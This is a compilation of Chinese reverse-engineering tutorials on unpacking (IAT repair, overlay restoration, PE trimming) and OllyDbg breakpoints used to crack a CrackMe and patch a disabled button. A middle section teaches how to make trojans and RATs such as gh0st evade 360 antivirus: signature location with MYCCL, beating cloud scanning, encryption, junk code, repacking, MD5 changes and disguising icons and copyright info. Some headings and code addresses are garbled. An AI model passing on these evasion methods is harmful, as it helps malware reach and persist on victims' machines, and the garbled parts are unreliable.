继续按F8，执行到最后遇到一个返回语句，再F8一次返回后就到了程序OEP。

OK，今天就说到这里，希望大家能多加以应用。下期见。

## 破解壳透步（十一） 脱壳后处理

rejector

### IAT的还原

一般来说壳都会破坏原程序的输入表，所以在脱壳的时候有必要修复原程序的输入表。

一个输入函数是被某模块调用的、但又不在调用者模块中的函数，因而命名为“import（输入）”。输入函数实际位于一个或者更多的DLL里，调用者模块里只保留一些函数信息，包括函数名及其驻留的DLL名。Windows在加载PE文件时，首先会看OriginalFirstThunk的值，如果OriginalFirstThunk的值不为0，则顺着OriginalFirstThunk里传入的RVA转入；如果OriginalFirstThunk的值为0，则查找FirstThunk的值。

对于加过壳的程序，一般都破坏了原程序的输入表，而只有IAT（输入地址表）。当程序运行时，外壳代码会自动填充IAT中的相关数据，然后来完成对系统API的调用。但是很多壳程序为了防止输入表被还原，都会对IAT做加密。加密后的IAT里就不是API真正的地址了，而是程序HOOK API后的地址。但是脱壳以后的文件不会执行外壳部分的代码，所以就需要我们自己来还原程序的输入表。

一般来说程序的IAT是连续排列的，以一个DWORD的0作为结束，所以只要确定IAT范围中的某一个地址，就可以获得整个IAT了。

OD载入一个加过壳的程序，一路跟踪到OEP就看到这样一句代码：

```asm
0039110E  call dword ptr [39202C];Sleep
```

这一句代码OD给出的注释是Sleep，而call指令调用过程的地址是从地址39202C处取过来的一个DWORD值。在命令行窗口里输入命令“d 39202C”查看内存地址39202C处的数据：

```asm
0039202C  06 EF 06 77 FE F1 06 77 B2 F1 06 77 00 00 00 00
```

从这里取一个DWORD值，就是7706FE06，这里就是Sleep函数的地址了。而向后看，00392038处的DWORD就是0了，说明程序的IAT到这里就结束了。往上翻一点，就到段首了：

```asm
00392000  E4 FD 06 77 C3 0C 07 77 16 EF 06 77 47 F2 06 77
00392010  B3 AF 06 77 E2 30 07 77 CD 2A 08 77 AC 05 07 77
00392020  BB 50 06 77 55 7C 07 77 DC F1 06 77 06 EF 06 77
00392030  FE F1 06 77 B2 F1 06 77 00 00 00 00
```

在这里点鼠标右键选择“长型”-“地址”，图1，然后就可以看到这里是每个函数的地址，图2。这里是对kernel32.dll的输入，往下还有其它DLL的输入，它们之间用一个DWORD的0来隔开。计算出对每一个DLL输入的长度，然后将这些信息写入程序文件就可以完成对输入表的修复，这里用工具来实现。


图1


图2

用ImportREC可以手工修复输入表，是脱壳必备的利器。运行ImportREC，选中当前加壳程序的进程，图3，然后填入刚才跟踪得到的OEP后点“AutoSearch”，ImportREC就会找到IAT的偏移和大小，图4。然后再按“Get-Import”，ImportREC就会自动分析程序的IAT结构，得出正确的输入表，图5。然后点“Fix Dump”选择刚刚DUMP出来的文件，则ImportREC会生成一个名为“***_.exe”的文件，就是完成输入表修复的文件。

可以看出这个程序是用ASPack 2.12加过壳的，但是最后多出了“[Overlay]”。学过英语的朋友都知道overlay的意思是覆盖在上面的东西，这里的overlay表示盖在程序上面的东西，也就是附加数据。查壳的时候要是出现“[Overlay]”，则说明程序是拥有附加数据的。


图3


图4


图5


图6


图7


图8


图9


图10


图11

## 附加数据的处理

有些可执行文件里面可能还有一些数据，这些数据处于文件末尾，不属于任何区段，也不映射到内存，但是程序会使用到它。

首先使用前几节的方法给程序脱壳，运行DUMP后的文件看看，图8，点击“获取附加数据”按钮，却没有读取出任何数据，编辑框仍然空白。这个时候就要给脱壳后的文件重新加上附加数据。

用LoadPE查看加了壳的程序的区段信息，图9，最后一个区段是.adata，它对应的ROffset是0000E800，RSize是00000000。前面说过附加数据处于文件末尾，也就是在最后一个区段之后，也就是最后一区段的ROffset+RSize，这里是0000E800，也就是从文件偏移0000E800处开始就是程序的附加数据。用WinHex打开加壳过的程序，复制它从偏移0000E800以后的所有数据，图10，然后再打开DUMP后的文件，把刚才复制的部分粘贴到文件末尾，图11，保存文件。

### PE优化

程序在脱壳以后，体积往往会变大。体积变大的原因有很多，如：

- 往往程序里还会残留一些垃圾信息，如外壳部分的代码，虽然不执行，但它仍然存在于程序里；
- 脱壳后，重新建立了新的Import节、Reloc节等；
- 有些加壳程序将原程序的某些节跟外壳增加的某些节合并后，搬移到了其他位置；
- PE文件在被映射到内存中以后，由于其对齐问题，在内存中PE映像一般也会大于原始的PE文件，因此在Dump以后每个区块的实际尺寸也会较原始PE文件的实际尺寸大。

可以通过对PE文件进行优化来减小它的体积。

用LoadPE的PE编辑器打开脱壳后的程序，查看区段信息，图12，可以看到这里有八个区段。前面说过，“.aspack”“.adata”“.idata2”是外壳部分的数据和代码，那么这里有用的区段就是前五个了，所以我们需要把区段“.aspack”“.adata”“.idata2”给清理掉。


记录一下刚才看到的区段的数据，然后分别右键选择“清除区段”，图13。

但是这样只是删除了区块表里的数据，还需要从文件中删除这些数据。从图12中可以看到区段“.adata”“.idata2”在文件中从0x00012000开始，直到文件末尾，即0x00020400结束。使用WinHex打开文件，选中这一区间的数据，按Delete键删除，如图14。


只是删除了节表项目和文件中内容还不行，还要设置好节属性，使每个区块连续。这里本来就是连续的，可以省略这一步骤。

比较优化后的文件，如图15、图16，从129KB变到了72KB。

# 免杀经验

好多人和我说免杀难，其实吧，这话也对也不对。免杀要求的基础并不高，至少比破解逆向低多了，掌握基本方法也用不了多久。可是很多新手同学都不能够免杀成功，根据我的经验，主要有三点原因：

## 一、使用工具太老

这个很容易理解，那些工具你能下载，杀软公司自然也能下载，时间长了自然就被杀软公司摸清底细了。最明显的是壳子，有的壳子确实可以加个就免杀，但是那种东西在现在各种上传云查杀的杀软面前寿命有限。还有一些加区器也一样，证据是一些已经免杀的远控如果加上一个比较老的壳子，或用加区器加个区段就又会被杀了。

解决方法：壳子什么的就不用试了，你能免费拿到的壳子基本都是被杀的；加区器的话，先找个免杀的远控，加个区看看杀不杀，杀的话就果断换吧。

## 二、定位不准确

好多人免杀不成，就是因为定位时各种死循环，要不就是一直定位到E0或者400和1000。这个严格来说和第一个也有关系，因为MYCCL也是一款元老级的工具了，稍微有能力的杀软早就有了各自对抗其定位的办法。用教程中那种生成杀毒二次定位的方法已经不能准确定位现在的杀软了。360就是一个很好的例子，你用教程中那种方法定位一定最后会定位到E0。下面是网上流传比较广泛的几种猜测，我也不好说哪个管用、哪个不管用，反正我一般定位之前都把能想到的方法都用一遍，然后测试可以上线后再开始定位。

- 1. 杀文件名

  360定位云查杀引擎时，比如用MYCCL输出9个文件，分别为0000_……；0001_……；0002_……；0003_……；0004_……；0005_……；0006_……；0007_……；0008_……。每次输出9个文件，360云查杀每次都是杀0004_……；0005_……；0006_……；0007_……；0008_……，而0000_……；0001_……；0002_……；0003_……不杀。奥秘就在这里：当你把原来不杀的0000_……；0001_……；0002_……；0003_……重命名为0004_……；0005_……；0006_……；0007_……，360就杀了。更有趣的是，你从QQ目录里随便复制出一个文件，比如QQ.exe，用360查杀，“本次扫描未发现安全威胁”；然后你把QQ.exe重命名为0004_00052960_00014A20.dat，再用360查杀，360报毒为“行为和木马比较相似的程序”。360为了干扰定位特征码结果，云查杀还杀文件名，同样那个OUTPUT的目录名貌似也有问题。

  解决方法：查杀目录不要用output，名字随便改；对付杀文件名的方法要用到如图1这款工具。这款工具可以对生成文件夹内所有的分块文件进行批量改名及批量恢复。首先用MYCCL对文件分10块，处理之前如图2，然后用工具加载目录点击更改后，则目录如图3，工具如图4。文件名都变成了图1中那个“前部分”加一个随机数再加“后缀”了，进行查杀后，点击还原，然后再二次处理，后续以此类推。

- 2. 查杀日志记录

  就是在360下Log\VirusCanLog目录内的一切，有时也会影响查杀结果。


解决方法：定时清理一下。

## 3. 检测主机进程

装有 360 的系统检测出有 MYCCL 的进程，360 就会对同一个文件有时杀有时不杀，来干扰定位结果。

解决方法：分块时别分太多块，然后把在主机生成的文件复制到装有 360 的虚拟机里，用 360 查杀后记下被杀的文件，回主机的 MYCCL 输出文件夹里手动删除，然后进行二次处理，……以此类推。

## 4. 该杀软对你要定位的文件过于了解

有的同学会问什么是过于了解，360 对原版的鸽子和 gh0st 就叫过于了解，这种东西最少也得有个几十条特征，可你定位时一定最后定位到 E0，不信的同学可以自行测试，这种东西是很不好办的，建议初学者不要碰这个，先找一些别人做过免杀的做实验，多熟悉方法。

解决方法：分块之前对木马进行一系列的修改，例如重建输入表、加密、加花、加壳改壳、优化 PE、修改版权、图标、MD5 值、输入表和输出表、安全、TLS 表，保留的大小可以随意改，将文件载入 LordPE 后点击目录如图 5。


加密、加花、改壳，就是 OD 添加修改代码，LordPE 修改入口，记得重建输入表后要在 LordPE 中对区段和输入表处理一下，否则白做。网络各种教程，我就不细说了。再补一句，异或区段加密和区段合并配合有奇效。加壳、优化 PE、修改 MD5 值都用工具就行了，不过 MD5 还是建议手动。版权、图标用 Restorator 载入木马和另一个正常文件，将木马中的版权图标删除，再把正常文件的版权图标复制如图 6，再粘贴到木马里如图 7，然后保存。

## 三、定位出来不会改

这是最悲剧的了，克服艰难险阻就快要成功的时候 hold 不住了，这个很简单吧，就是你在用尽你所知道的方法后，不是不能达到免杀效果，就是不能上线了。

解决方法：建议多了解一些汇编及 PE 结构的知识，还有多看教程，熟悉 OD 的各项功能，OD 可是灰常强大的，好多功能。

基本就这些了，上面所说的方法大家要活学活用，免杀切忌生拉硬套，要进行组合创新才有出路；最重要的是多看教程、多做实验、积累经验。

云引擎是一种新兴技术，其实也不算太新了。下面以个人看法说明 myccl 的运行原理：比如一个程序由一百句代码组成，定位时分 100 块，这一百块分别是：

- 1. 把第一句以外的全用 00 填充只留第一句；
- 2. 把第二句以外的全用 00 填充只留第二句；
- 3. 把第三句以外的全用 00 填充只留第三句；
- 4. ……以此类推，然后看杀软杀哪个，特征码就在那句上。


然后说什么是云，云就是一堆服务器，杀软把扫描到怀疑是木马但不确认的文件都上传到云，然后进行分析、比对。

最后说明云查杀的原理，简单理解成杀软在扫描到不确认的文件时会连接服务器进行确认……以下是我的看法，云引擎虽然进行分析，不过速度毕竟太慢，所以云引擎只能使用类似多点对比的方法……

看到这里脑子好的同学就应该明白怎么回事了，想象一下用 myccl 去定位云引擎会怎么样……结果就是根本定位不出特征。

你要非说你能定位出来那也对，我也定位出来过，有时候巧确实是可以定位出来的，但是普遍免杀期都较短。

知道为什么吗，因为三处云特征你只定位出了一处……假设 myccl 真的凑巧没有填充 30、60、90，结果杀了 30，特征出现在了 30，把 30 填充后只剩 60 和 90，云就不再杀了……3.0 的云怕压缩壳……大范围修改后无法对比，就过了。

这种情况的解决方法是自己填充，简单说一下吧，myccl 分块后……再根据结果分析……最终推测出云特征在何处，这个推测我也没有 100% 的把握……经过推测云特征并修改的木马免杀期远远长于没有处理过的。

## 《破解受…》（十三）浅见断点（上）

rejector

在我们逆向分析一个程序的时候，程序的二进制代码往往是很多的，而我们要分析的代码是其中具体的一部分……这就用到了断点技术……使我们尽快定位到我们需要分析的代码。

断点是调试器的功能之一，可以让程序中断在需要的地方……极大地方便了操作，同时节省了时间。

一般来说断点根据原理和用途不同又分为软件断点和硬件断点两种。

软件断点是相对于硬件断点来说的，它不需要硬件的支持，只是简单地通过在代码中设置特征值的方式来实现……当需要在某地址代码处设置软件断点的时候，仿真器会先将此处代码进行备份保护，然后将预先设定好的断点特征值（一般为 0x0000、0xCC 等不易与代码混淆的值）写入此地址……当取消断点时，之前受保护的代码信息会被自动恢复。

int3 断点是软件断点的一种，在 OD 中的快捷键是 F2……int3 指令的机器码为 0xCC……优点是可以设置无数个断点，缺点是改变了原程序指令，容易被软件检测到。

在调试程序的时候如果在某一句设置了一个 int3 断点……调试器就会捕捉这个异常从而停止在断点处，然后将断点处的指令恢复成原来的指令。

普通的 int3 断点在 OD 里只要选中需要设置断点的那一句代码，然后按快捷键 F2 即可，然后被设置断点的那条语句会高亮显示，图 1。


图1


图2


图3


图4

这里来看一个简单的例子，这个程序要求你输入一个字符串。如果你输入的字符串不正确，则会弹出一个对话框提示你“Sorry, your string incorrect!”，图 2、图 3。

现在打开 OD，加载这个程序，这里向大家介绍 OD 的一款插件，叫“Ultra String Reference”，顾名思义它是一个关于字符串参考的插件。其实 OD 本身是带有字符串参考功能的，但是相对而言对于中文的支持比较差，因此这个插件诞生了，它对中文的支持效果比较好，有 ASCII 和 UNICODE 两种模式。

单击菜单栏里的“插件”，然后选“Ultra String Reference”菜单，接下来选择“Find ASCII”或者“Find UNICODE”，具体使用哪个请自行决定。图 4，打开插件以后，图 5，这里看到了刚才输入字符串错误的时候提示的信息“Sorry, your string incorrect!”，双击这一句就会来到对应的代码处，来看看这里的代码：

```asm
; Style = MB_OK|MB_APPLMODAL
push 003E2104 ; "congratulations"
push 003E2124 ; "yes, you got it!"
push 003E2154 ; "sorry, your string incorrect!"
call dword ptr [<&USER32.MessageBoxW>]
call dword ptr [<&KERNEL32.ExitProcess>]
```

这段代码很简洁，清楚明了，这里的 push 语句都是向调用的过程传递参数，这里主要看的是第二句，这里是 test 指令，前面讲过 test 指令可以用来判断参数是不是 0，再看下一句，这里是 jnz 选择跳转，jnz 的意思可以简单理解成 not zero，也就是通过上面的比较，不为零则执行跳转，否则向下执行。这里可以看出如果向下执行则会提示“yes, you got it!”，如果跳转被执行了就会提示“sorry, your string incorrect!”。而这里跳转不跳转全是由第一句 test 指令的参数 eax 说了算，如果 eax 是 0 则提示“yes, you got it!”，否则提示“sorry, your string incorrect!”，那 eax 的值是怎么得来的，就要看着上面的代码了。上面的代码是这样的：

按 F9 让程序运行起来，然后随便输入一个字符串，这里假设是“abcdefg”，然后按“CHECK”按钮，接着程序就被中断了。中断以后按快捷键 F8 步过，然后下面是 lea 指令，lea 指令用来传递有效指针，这里继续 F8 步过。前面说过一般来说函数的返回值是通过 eax 寄存器传出的，那我们现在看看寄存器里的数据，图 7，eax 和 ecx 现在都是指针，分别指向字符串“monster”和“abcdefg”。我们知道字符串“abcdefg”是我们输入的值，那“monster”是什么呢，看看下面的代码就知道了。

```asm
003E10CF  push 64
; Count = 64 (100.)
003E10D1  lea eax, dword ptr [esp+8]
; !congratulations
003E10D5  push eax
; !Buffer
003E10D6  push 3E8
; !yes, you got it!
003E10DB  push esi
; !Wnd
003E10DC  call dword ptr [<&USER32.GetDlgItemTextW>]
003E10E2  call 003E1000
011010E7  lea ecx, dword ptr [esp+4]
011010EB  mov edx, eax
```

```asm
011010F1  movzx eax, word ptr [edx+ecx]
; 获取字符串1的第n个字
011010F5  test ax, ax
; 是不是0
011010F8  jnz short 011010FF
; 不是0则执行跳转
011010FA  cmp word ptr [ecx], ax
; 与字符串2的第n个字比较
011010FD  je short 01101109
; 相等则执行跳转
011010FF  cmp ax, word ptr [ecx]
; 与字符串2的第n个字比较
01101102  jnz short 01101124
; 不相等则执行跳转
01101104  add ecx, 2
; 下一个字
01101107  jmp short 011010F1
; 跳回循环头
```


可以看到这里调用了 GetDlgItemTextW 函数，调用这个函数用来获得与对话框中的控件相关的标题或文本，这里可以理解成获取我们输入到编辑框里的内容，那下面这个函数是什么呢？这里就需要断点功能了，选中这一句，按快捷键 F2，然后可以看到这一句变成了红色，如图 6。现在仔细分析一下逻辑就可以看出这里的代码是用来比较两个字符串是不是相同的，我们可以理解成这里把我们输入的字符串和正确的字符串比较，而我们输入的字符串是“monster”，那么程序真正需要的字符串就是“monster”了。运行程序测试一下，输入字符串“monster”，按“CHECK”按钮，可以看到程序弹出了对话框提示“yes, you got it!”，测试成功，图 8。

比较的函数会在程序中使用多次，如果每一次都中断，那么对新手来说就会迷失在茫茫的代码海洋中。这时候就需要用到条件断点了，选中这一句代码，然后按 SHIFT+F2，在弹出的对话框里输入需要追加的条件。这里输入的条件是“unicode[eax]=="abcdefg"”，意思是当 eax 指向一个 unicode 字符串“abcdefg”时满足条件。


但是有些代码在程序运行过程中可能会被执行多次，但是我们不需要它每次都被中断，这时就需要用到条件断点了。条件断点，就是在设置断点的时候再给 OD 一个条件，只有这个条件被满足的时候才会执行中断。在 OD 里设置一个普通的条件断点只要按快捷键 SHIFT+F2 即可。

把刚才的 CrackMe 稍微做一下修改，把字符串比较的代码放到一个函数里，看看反汇编代码，与上一节的就有一点不同：


```asm
002F110C  call  dword ptr [<&USER32.GetDlgItemTextW>]
002F1112  call  002F1000
002F1117  mov   edx,eax
002F1119  lea   eax,dword ptr [esp+4]
002F111D  call  002F1050
```

这里简述一下常用的条件断点的设置方法：

| 操作符 | 表达式 |
|---|---|
| 等于 | == |
| 不等于 | != |
| 大于 | > |
| 大于等于 | >= |
| 小于 | < |
| 小于等于 | <= |
| 取值 | [] |
| ASCII 字符串 | STRING |
| UNICODE 字符串 | UNICODE |

刚才调用 GetDlgItemTextW 函数来获取编辑框里的内容，然后通过调用 002F1000 处的过程来获取正确的字符串，接下来把从编辑框里获取的字符串和正确的字符串进行比较，通过比较结果来弹出不同的对话框。而看到本节的代码，调用 GetDlgItemTextW 函数来获取编辑框里的内容，然后通过调用 002F1000 处的过程来获取正确的字符串，但是接下来就不一样了。看这里的第三句代码，把 eax 的值传给 edx，eax 是前面调用的过程的返回值，也就是正确的字符串的指针；第四句，传指针，把 esp+4 传给 eax 然后调用过程 002F1050，而 esp+4 是通过调用 GetDlgItemTextW 函数获取到的编辑框里的字符串，过程 002F1050 则是比较两个字符串的函数，这里通过寄存器来向函数传递参数。

按快捷键 CTRL+G，在弹出的对话框中输入 002F1050 然后按“确定”就会看到 002F1050 处的代码，图 9。我们需要在这里设置一个断点，这样当程序捕捉编辑框里的字符串后拿来和正确的字符串比较的时候就会被中断。

还有一种稍微高级一点的条件断点，称为条件记录断点，按快捷键 SHIFT+F4 即可，使用方法和条件断点大致相同，图 11。

程序在执行过程中为了实现某些功能（比如弹出对话框）通常会调用一些 Windows API 函数，而函数断点就是在对应的函数的入口点设置一个 int3 断点，每当程序要调用这个函数的时候就会中断。


图11

看个简单的例子，程序只有一个按钮，但是按钮是灰色的，按不了，这里我们就来充当一回灰色按钮克星。首先来了解一下，让按钮变成灰色一般会用到一个 API 函数 EnableWindow，看看 MSDN 里给出的解释。函数原型如下：

```c
BOOL EnableWindow(
    HWND hWnd,
    BOOL bEnable
);
```

这个函数有两个参数：

hWnd：指向将要禁止或者激活的窗口的句柄。

bEnable：禁止或者激活的标志。如果该参数的值为 TRUE 则激活，如果为 FALSE 则为禁止。

这个函数的返回值为 BOOL，如果窗口原来就是被禁止的，返回值为非零；如果窗口原来不是被禁止的，返回值为零。


图12

知道了这些以后打开 OD 加载这个程序，然后按 CTRL+G 输入“EnableWindow”，图 12，然后就会显示 EnableWindow 函数的代码，可以在这里按 F2 设置一个断点。

一般来说很多朋友更倾向于一种更加简便的方法，直接在 OD 命令行插件中输入命令“BP EnableWindow”按回车即可。设置好断点后按 F9 让程序运行起来，接下来程序就会被中断在 EnableWindow 函数里，图 13，看看这时候堆栈里的信息：

```asm
0015F7EC  010E1080   /CALL 到 EnableWindow
来自 3.2_4.010E107A
0015F7F0  000A0A34   hWnd = 000A0A34 ('CHECK', class='Button', parent=000A0A3A)
0015F7F4  00000000   bEnable = FALSE
```


图13

可以看到这里调用了 EnableWindow 函数，hWnd 的值为“CHECK”按钮的句柄，bEnable 参数的值为 FALSE，通过上面可以知道如果 bEnable 参数的值为 FALSE 则为禁止。因为可以确定下来这里的代码就是要使按钮变成灰色了。再注意图 13 中的标记部分，当前执行的代码并非位于程序的模块，而在 user32，而我们要分析程序的代码，要返回程序领空才可以，按快捷键 ALT+F9 让程序执行到用户代码，现在 OD 里的代码如下：

```asm
010E1067  push 0            ; bEnable = FALSE
010E1069  push 010E2104     ; lpTitle = "CHECK"
010E106E  push 0            ; lpClass = 0
010E1070  push 0            ; hAfterWnd = NULL
010E1072  push ecx          ; hParent
010E1073  call dword ptr [<&USER32.FindWindowExW>]
010E1079  push eax          ; hWnd
010E107A  call dword ptr [<&USER32.EnableWindow>] ; \EnableWindow
```

按“取消”，然后在反汇编窗口中点击鼠标右键，选择“复制到可执行文件”-“所有修改”，图 15，然后 OD 会提示你“要把选中内容复制到可执行文件中吗？”，这里选择“全部复制”即可，图 16，然后还会弹出一个新的窗口，在这个窗口中再点击鼠标右键，选择“保存文件”，图 17，保存修改过的文件后运行测试一下，按钮已经变为可用状态，图 18。


图14


图16


图15


图17


图18

这里还调用了另外一个 API 函数 FindWindowExW，这个函数不是我们分析的关键，我们只要知道它的作用就行，它在这里的作用是获取子窗口“CHECK”按钮的句柄，然后作为 hWnd 参数传递给 EnableWindow 函数，而第一句的“push 0”则是向 EnableWindow 函数传递 bEnable 参数，0 就是 FALSE。我们想要让“CHECK”按钮变为可用状态，只要将第一句的“push 0”改为“push 1”即可。双击这一句代码，就会弹出汇编窗口，在这里输入“push 1”然后点击汇编按钮就可以修改此处的汇编代码，图 14，修改以后按“取消”。

- 这里是常用的函数中断方法：
- 禁止菜单条目：EnableMenuItem
- 禁止子窗口：EnableWindow
- 创建文件句柄：CreateFileW(A)
- 打开文件：OpenFile
- 读取文件：ReadFile
- 写文件：WriteFile
- 调整文件指针：SetFilePointer

# 主题乐园

- 退出进程  ExitProcess
- 创建进程  CreateProcessW(A)
- 打开注册表项  RegOpenKeyW(A)
- 创建注册表项  RegCreateKeyW(A)
- 删除注册表值  RegDeleteValueW(A)
- 设置注册表值  RegSetValueW(A)
- 获取系统时间  GetSystemTime
- 发送消息  SendMessageW(A)
- 传统万能断点  hmemcpy

